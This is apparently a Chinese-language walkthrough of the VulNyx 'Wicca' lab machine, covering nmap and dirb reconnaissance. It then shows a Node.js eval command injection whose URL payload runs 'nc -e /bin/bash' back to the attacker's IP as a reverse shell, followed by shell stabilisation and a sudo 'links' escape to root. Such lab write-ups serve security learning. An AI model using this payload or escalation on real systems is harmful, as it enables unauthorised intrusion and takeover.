








# 环境

来自[vulynx_Wicca](https://vulnyx.com/#Wicca)，利用node.js搭建的后端报错存在命令执行代码，进行反弹shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.40
```



## 详情扫描

```bash
sudo nmap -sV -sC -O -p22,80,5000 192.168.88.40
```



## 目录扫描

```bash
dirb http://192.168.88.40
dirb http://192.168.88.40:5000
```

发现没有什么可利用信息，5000是node.js



# web渗透

## node.js反弹shell

访问5000端口，发现这个token参数输入英文会报错，并且报错信息中发现有eval函数



各种反弹shell[revshells.com](https://www.ddosi.org/shell/)，尝试使用node.js的反弹shell

payload=`http://192.168.88.40:5000/?name=admin&token=require(%27child_process%27).exec(%27nc%20-e%20/bin/bash%20192.168.88.10%208888%27)`



```bash
#获得更好的交互shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty size
stty rows 24 columns 80
source /etc/skel/.bashrc
```

## 提权

[links提权](https://gtfobins.github.io/gtfobins/links/#sudo)

```bash
sudo -l
sudo lnks
摁esc,选择os shell，即可提权
```




